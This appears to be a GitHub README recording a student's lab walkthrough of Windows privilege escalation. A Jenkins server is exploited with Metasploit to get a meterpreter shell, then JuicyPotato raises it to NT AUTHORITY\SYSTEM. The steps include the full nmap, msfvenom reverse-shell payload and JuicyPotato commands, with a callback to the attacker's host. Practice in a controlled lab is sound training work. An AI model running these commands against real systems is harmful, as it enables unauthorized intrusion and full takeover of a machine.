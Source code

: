 # Windows Privilege Escalation

## Objective: 
Windows Privilege Escalation, leveraging tools and techniques to gain unauthorized access to system-level resources on a Windows Server machine within a controlled environment. The lab commences with gaining a limited shell via exploiting Jenkins on port 8484, followed by escalating privileges using Juicy Potato. This project provides hands-on experience in exploiting service vulnerabilities, working with Meterpreter shell, and privilege escalation techniques. The ultimate objective is to attain an NT AUTHORITY\SYSTEM level access, thereby demonstrating the vulnerabilities and the importance of securing Windows systems.

## Walkthrough:

### Part 1

- I initiated a Nmap scan within a specified IP range using the command **"nmap 10.0.2.0/25"**. Given that my host IP is 10.0.2.6, I deduced that the Windows VM IP is 10.0.2.8 with multiple open ports.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp1.png" alt="">
</p>
- I noticed that port 8484 wasn’t displayed as open, prompting me to check using the command **"nmap -p 8484 -sV 10.0.2.8"**. I found it open and identified the running service to be **Jetty winstone-2.8**, an HTTP service.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP2.png" alt="">
</p>
- With this information, I accessed Jenkins by entering the IP address and port number **"10.0.2.8:8484"** in Firefox.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp3.png" alt="">
</p>
- I then switched to the terminal and entered **MSFconsole** to search for Jenkins exploits. Following the instructions, I selected **exploit number 6**.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP4.png" alt="">
</p>
- Setting options for this exploit, I configured the username and password to **vagrant**, defined the rhost as 10.0.2.8 (target IP), set the target URI based on the Firefox URL **"http://10.0.2.8:8484/"**, defined the srvhost as my host IP (10.0.2.6), and assigned the rport as 8484. Executing the **run** command opened the meterpreter session 1 as NT Authority\local service.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP5.1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP5.2.png" alt="">
</p>
- I verified if the SeImpersonatePrivilege was enabled, and it was.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP6.png" alt="">
</p>
- Next, I uploaded **"JuicyPotato"** to the target machine using the meterpreter command **upload /home/kali/Downloads/JuicyPotato.exe**.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP7.1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP7.2.png" alt="">
</p>
- A quick **"ls"** command confirmed its presence on the machine with **"rwx"** permissions across all user groups.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp8.png" alt="">
</p>

### Part 2

- The task began with the creation of a 64-bit Windows meterpreter using MSFvenom. In the Kali terminal, the command **“msfvenom -l payloads | grep windows”** was issued to display a list of Windows payloads. I opted for **“windows/x64/meterpreter/reverse_tcp”**.
- To construct the payload, the command **“msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.6 LPORT=4445 -f exe > windyprivesc.exe”** was executed.
- The subsequent step was to transfer the crafted file to the target machine. Within the meterpreter environment, this was achieved using the **“upload windyprivesc.exe”** command.
- To proceed, the generic multi-handler exploit was required. After launching MSFconsole, I searched for multi handlers. I chose option 5, recognized as a generic payload handler, and configured the payload, LHOST, and LPORT accordingly.
- The core task was to run the exploit within the directory containing both JuicyPotato and the windyprivesc.exe file on the target VM. This operation was performed inside a shell in meterpreter, using the command **“C:\Program Files\jenkins\Scripts>.\JuicyPotato.exe -t * -p windyprivesc.exe -l 4445”**.
- Once redirected to the multi handler and upon gaining access to the shell, the command **“whoami /priv”** was run. The resultant display showed all enabled privileges. To conclude the assignment, I echoed my name into the terminal for verification purposes.
